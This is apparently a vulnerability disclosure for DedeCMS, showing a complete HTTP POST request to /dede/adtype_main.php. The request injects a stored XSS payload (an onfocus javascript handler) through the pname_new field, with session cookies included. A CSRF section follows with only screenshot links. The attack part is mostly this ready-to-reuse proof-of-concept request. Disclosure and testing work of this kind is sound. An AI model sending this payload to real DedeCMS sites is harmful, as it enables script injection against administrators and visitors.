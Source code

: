 

## 1. adtype_main.php XSS exploit

```
POST /dede/adtype_main.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 107
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9600/dede/adtype_main.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=ju8br1crnd6r1t5n15mareo4co; _csrf_name_f85ab2bd=68c8acd29961e1819fd253926afea12f; _csrf_name_f85ab2bd1BH21ANI1AGD297L1FF21LN02BGE1DNG=c8b36315a6b54bc1; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=546fad3334d3b477; DedeLoginTime=1713149620; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=dd81cc48d7edab74; ENV_GOBACK_URL=%2Fdede%2Fsys_admin_user.php
Connection: close

dopost=save&idend=0&pname_new=test" onfocus="javascript:alert(1)"&check_new=1&imageField=%E7%A1%AE%E5%AE%9A
```



![adtype_main_xss](https://github.com/thedarknessdied/dedecms/blob/main/114-CSRF-XSS.assets/adtype_main_xss.jpg)

## 2. adtype_main.php CSRF exploit

![image-20240415110639336](https://github.com/thedarknessdied/dedecms/blob/main/114-CSRF-XSS.assets/image-20240415110639336.png)

![image-20240415110708632](https://github.com/thedarknessdied/dedecms/blob/main/114-CSRF-XSS.assets/image-20240415110708632.png)

![image-20240415110723253](https://github.com/thedarknessdied/dedecms/blob/main/114-CSRF-XSS.assets/image-20240415110723253.png)



